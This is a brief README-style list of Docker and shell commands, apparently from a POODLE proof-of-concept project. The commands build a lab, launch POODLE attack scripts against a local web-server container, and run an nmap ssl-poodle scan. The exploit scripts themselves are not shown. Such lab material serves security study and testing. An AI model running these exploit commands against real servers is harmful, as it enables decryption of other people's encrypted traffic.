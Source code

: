 # Start python instance
docker-compose run --rm poodle
docker-compose run --rm poodle bash

# Launch the attack
python3 poodle-poc.py
python3 poodle-fast.py


# Or 
docker-compose run poodle2 sh
apk add gcc musl-dev
cd /poodle
pip install -r requirements.txt

# Launch the attack
python3 poodle-poc.py



docker-compose up web-server

# Scan poodle vulnerability from the attacker container
docker-compose run nmap -sV -p 443 --script=ssl-poodle web-server



# Use poodle-exploit.py
docker-compose run --rm poodle bash
python3 poodle-exploit.py 127.0.0.1 4443 web-server 443 --start-block 46 --stop-block 50

https://github.com/mpgn/poodle-PoC